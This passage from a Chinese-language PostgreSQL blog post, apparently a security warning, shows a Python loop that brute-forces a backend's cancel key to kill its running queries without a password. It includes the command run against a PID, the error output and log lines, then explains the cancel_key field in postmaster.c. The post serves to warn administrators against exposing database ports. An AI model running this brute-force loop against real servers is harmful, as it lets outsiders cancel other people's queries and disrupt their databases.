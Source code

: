 ```  
  
for i in xrange(1,2147483647):  
  pg_cancel_query(int(sys.argv[1]),i)  
```  
  
执行，  
  
```  
[root@digoal ~]# ./cancel.py 61758  
```  
  
你的这个LONG SQL语句可能会被CANCEL掉。  
  
```  
ERROR:  canceling statement due to user request  
```  
  
而在你的日志中可能会有大量的这样的报错  
  
```  
2015-09-29 14:22:41.767 CST,,,61756,"127.0.0.1:28378",560a2e31.cc83,2,"",2015-09-29 14:22:41 CST,,0,LOG,00000,"wrong key in cancel request for process 61758",,,,,,,,"processCancelRequest, postmaster.c:2126",""  
```  
  
也就是说，外界在没有密码的情况下，可以把你的SQL CANCEL掉。只要他尝试正确了你的PID和这个PID对应的cancel_key。  
  
现在知道危险了吧。不要没事把数据库端口暴露出来，破解密码是一种威胁，另一种威胁就是前面举的例子。  
  
分析一下：  
  
PostgreSQL为每个backend pid存储了一个cancel_key，这个KEY是一个随机long值。  
  
src/backend/postmaster/postmaster.c  
  
```  
/*  
 * List of active backends (or child processes anyway; we don't actually  
 * know whether a given child has become a backend or is still in the  
 * authorization phase).  This is used mainly to keep track of how many  
 * children we have and send them appropriate signals when necessary.  
 *  
 * "Special" children such as the startup, bgwriter and autovacuum launcher  
 * tasks are not in this list.  Autovacuum worker and walsender are in it.  
 * Also, "dead_end" children are in it: these are children launched just for  
 * the purpose of sending a friendly rejection message to a would-be client.  
 * We must track them because they are attached to shared memory, but we know  
 * they will never become live backends.  dead_end children are not assigned a  
 * PMChildSlot.  
 *  
 * Background workers that request shared memory access during registration are  
 * in this list, too.  
 */  
typedef struct bkend  
{  
        pid_t           pid;                    /* process id of backend */  
        long            cancel_key;             /* cancel key for cancels for this backend */  就是他  
        int                     child_slot;             /* PMChildSlot for this backend, if any */  
  
        /*  
         * Flavor of backend or auxiliary process.  Note that BACKEND_TYPE_WALSND  
         * backends initially announce themselves as BACKEND_TYPE_NORMAL, so if  
         * bkend_type is normal, you should check for a recent transition.  
         */  
        int                     bkend_type;  
        bool            dead_end;               /* is it going to send an error and quit? */  
        bool            bgworker_notify;        /* gets bgworker start/stop notifications */  
        dlist_node      elem;                   /* list link in BackendList */  
```